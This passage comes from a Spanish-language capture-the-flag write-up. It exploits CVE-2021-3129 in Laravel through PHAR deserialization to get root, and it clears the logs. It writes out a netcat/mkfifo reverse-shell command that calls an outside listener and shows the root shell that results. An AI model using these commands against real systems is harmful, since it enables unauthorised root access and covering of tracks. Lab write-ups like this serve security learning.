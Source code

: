 ```bash
remote: Compressing objects: 100% (673/673), done.
remote: Total 2822 (delta 476), reused 987 (delta 338), pack-reused 1658
Recibiendo objetos: 100% (2822/2822), 416.99 KiB | 1.65 MiB/s, listo.
Resolviendo deltas: 100% (1118/1118), listo.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```
¡Funciona, y además ejecutamos comandos como root!

Probemos a ver si podemos entablar una reverse shell. Nos ponemos en escucha con netcat y ejecutamos el exploit.

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/CVE-2021-3129_exploit]
└──╼ $ python3 exploit.py http://localhost:8000 Monolog/RCE1 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.45 4444 >/tmp/f'
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
```
¡Recibimos una shell como root!

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/CVE-2021-3129_exploit]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.105 37910
/bin/sh: 0: can't access tty; job control turned off
#
```
Ya habiendo escalado privilegios, podremos ver la flag `root.txt` en `/root/root.txt`:

```
# head --bytes 11 /root/root.txt | xargs
64a456cedd3
```
---








